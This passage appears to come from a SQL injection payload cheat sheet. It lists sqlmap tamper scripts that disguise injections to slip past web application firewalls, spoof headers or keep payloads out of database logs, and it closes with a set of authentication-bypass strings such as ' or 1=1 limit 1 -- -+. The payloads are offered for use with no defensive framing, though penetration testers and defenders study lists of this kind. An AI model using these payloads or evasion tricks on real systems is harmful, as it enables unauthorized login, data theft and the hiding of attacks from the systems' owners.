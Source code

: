 |modsecurityversioned.py | Embraces complete query with versioned comment |
|modsecurityzeroversioned.py | Embraces complete query with zero-versioned comment |
|multiplespaces.py | Adds multiple spaces around SQL keywords |
|nonrecursivereplacement.py | Replaces predefined SQL keywords with representations suitable for replacement (e.g. .replace("SELECT", "")) filters|
|percentage.py | Adds a percentage sign ('%') infront of each character  |
|overlongutf8.py | Converts all characters in a given payload (not processing already encoded) |
|randomcase.py | Replaces each keyword character with random case value |
|randomcomments.py | Add random comments to SQL keywords|
|securesphere.py | Appends special crafted string|
|sp_password.py |  Appends 'sp_password' to the end of the payload for automatic obfuscation from DBMS logs |
|space2comment.py | Replaces space character (' ') with comments |
|space2dash.py | Replaces space character (' ') with a dash comment ('--') followed by a random string and a new line ('\n') |
|space2hash.py | Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n') |
|space2morehash.py | Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n') |
|space2mssqlblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|space2mssqlhash.py | Replaces space character (' ') with a pound character ('#') followed by a new line ('\n') |
|space2mysqlblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|space2mysqldash.py | Replaces space character (' ') with a dash comment ('--') followed by a new line ('\n') |
|space2plus.py |  Replaces space character (' ') with plus ('+')  |
|space2randomblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|symboliclogical.py | Replaces AND and OR logical operators with their symbolic counterparts (&& and ||) |
|unionalltounion.py | Replaces UNION ALL SELECT with UNION SELECT |
|unmagicquotes.py | Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work) |
|uppercase.py | Replaces each keyword character with upper case value 'INSERT'|
|varnish.py | Append a HTTP header 'X-originating-IP' |
|versionedkeywords.py | Encloses each non-function keyword with versioned MySQL comment |
|versionedmorekeywords.py | Encloses each keyword with versioned MySQL comment |
|xforwardedfor.py | Append a fake HTTP header 'X-Forwarded-For'|

## Authentication bypass
```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
```